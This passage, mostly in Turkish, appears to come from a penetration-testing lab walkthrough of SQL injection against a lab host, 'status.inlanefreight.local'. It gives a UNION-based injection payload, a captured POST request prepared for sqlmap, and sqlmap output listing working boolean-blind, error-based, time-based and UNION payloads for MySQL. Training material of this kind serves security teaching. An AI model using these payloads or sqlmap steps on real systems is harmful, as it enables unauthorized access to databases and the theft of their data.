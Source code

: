 ```sql
' union select null, database(), user(), @@version -- //
```

Bu durumdan faydalanmak için sqlmap de kullanabiliriz. İlk olarak, Burp kullanarak POST isteğini yakalayın, bir dosyaya kaydedin ve searchitem parametresini bir * ile işaretleyin, böylece sqlmap nereye enjekte edeceğini bilir.

```shell-session
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```

Ardından, bunu sqlmap aracılığıyla aşağıdaki gibi çalıştırıyoruz:

```shell-session
[!bash!]$ sqlmap -r sqli.txt --dbms=mysql 

<SNIP>

[00:07:24] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 6921=6921#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x716a7a7171),NULL#
---
[00:07:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
```